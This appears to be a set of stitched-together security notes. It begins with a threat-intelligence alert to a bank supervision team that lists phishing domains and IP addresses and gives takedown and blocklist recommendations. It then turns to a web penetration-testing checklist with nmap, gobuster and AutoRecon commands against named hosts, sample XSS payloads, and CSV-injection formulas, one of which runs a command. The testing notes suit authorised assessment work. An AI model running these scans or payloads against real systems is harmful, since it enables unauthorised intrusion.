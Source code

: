 ![image](https://github.com/user-attachments/assets/c7380773-4cd9-49fd-bc0c-eb7475cd3875)https://teams.microsoft.com/l/meetup-join/19%3ameeting_Zjg2N2QzZDItYmUyMC00MTEzLWE1NzUtNzlkN2QwMzM4M2Zj%40thread.v2/0?context=%7b%22Tid%22%3a%22513294a0-3e20-41b2-a970-6d30bf1546fa%22%2c%22Oid%22%3a%22031e8033-4604-4cf6-a162-73be85389a62%22%7d




We have identified through our proactive OSINT monitoring several suspicious domains and IP addresses that are masquerading as several authorized institutions. These domains and IP addresses have been flagged for their involvement in phishing , masquerading and other malicious activities aimed at compromising banking clients.

We appreciate this might be of interest to your Banking Supervision Division team.  Please let us know if you want to know more information.

•	stockadv.com
•	ns1.stockadv.com
•	crmloans.com
•	ns1.crmloans.com
•	gopay.stockadv.com
•	fifinbank.com
•	financial-globe.com
•	microsoftsecuritypatch.com
•	sgresearchinstitute.my.id
•	osint.stockadv.com
•	sgresearchinstitute.com
•	sgresearchinstitute.onlinebankoftemasek.com
•	storage.financial-globe.com
•	bankofchinahk.com
•	activestockwatch.com
•	payment.activestockwatch.com
•	certswin.com
•	securityservicesthereforyou.com
•	oneforallclub.com
•	ncbhksupport.com
•	cncmbwglubk.com
•	wlbfinance.com
•	crnbwlnlongbank.com
•	winglungprivate.com
•	cmbwinqlongbak.com
•	cnnbwinglungbk.com
•	hkriskmamagementgroup.com
•	riskmanagementcommunity.com
•	igsmeetings.com
•	financeintelligencer.com
•	fhninvestormeeting.com
•	tecmtraining.com
•	itwlb.com
•	hk-bea.com
•	payment.stockadv.com
•	54.168.87.242
•	43.198.89.62
•	16.163.141.98
•	3.113.60.187
•	13.112.98.86
•	43.206.230.226
•	13.230.96.112
•	35.72.10.22
•	54.238.171.84
•	13.213.209.30
•	43.207.166.237
•	54.199.175.63
•	54.238.186.23
•	43.199.163.62
•	18.162.153.12
•	54.199.248.127
•	20.210.195.248
•	203.198.127.221
 
 
Recommendations:
1.	Domain Takedown: Initiate takedown requests for the identified fake domains through the appropriate domain registrars and hosting providers.
2.	Blacklist Domains: Add the identified domains and IP addresses to your organization's blacklist to prevent any communication or transactions with these malicious entities.
3.	Client Notification: Inform your clients about the identified threats and advise them to be cautious of any communications from these domains. Provide guidelines on how to recognize and report suspicious activities.
4.	Collaboration with Authorities: Report the identified domains and IP addresses to relevant cybersecurity authorities and organizations to aid in broader efforts to combat these threats.
5.	Enhanced Monitoring: Increase monitoring of your network and systems for any signs of activity related to these domains. Use threat intelligence feeds to stay updated on new threats.



	1. Session
	2. Access control (admin vs user)
	3. Input form (XSS, SQL Injection)
	4. Upload file function
	5. Scanner
	6. Authentication (brute force, change pw, user enumeration)
	
gobuster dir -u dms.cobaltknitwear.com -w ./directory-list-2.3-medium.txt -b "301,404"
sudo nmap -vv -sC -sV -p- -Pn dms.cobaltknitwear.com -o ./dms.cobaltknitwear.com.txt //All port='-p', Port443='-p443'
nmap --script=http-methods -p443 dms.cobaltknitwear.com
nmap -sV -p1022 dms.cobaltknitwear.com
sslscan dms.cobaltknitwear.com

<script>alert(1)</script>
<img src=x onerror=alert(1) />
<svg onload=alert('XSS')>

Autorecon:
kali@kali:~/AutoRecon$ sudo python3 autorecon.py -v www.megacorpone.com

In Excel Spreadsheet:
CSV Injection (https://payatu.com/blog/csv-injection-basic-to-exploit/)
=HYPERLINK(www.bing.com, Bing)
=cmd|' /C calc'!xxx

SQL injection Burp Scan

https://temp-mail.org/en/
Email Rate limit
![image](https://github.com/user-attachments/assets/36e0e1bf-8598-4a4e-978c-689f6b24fa2d)



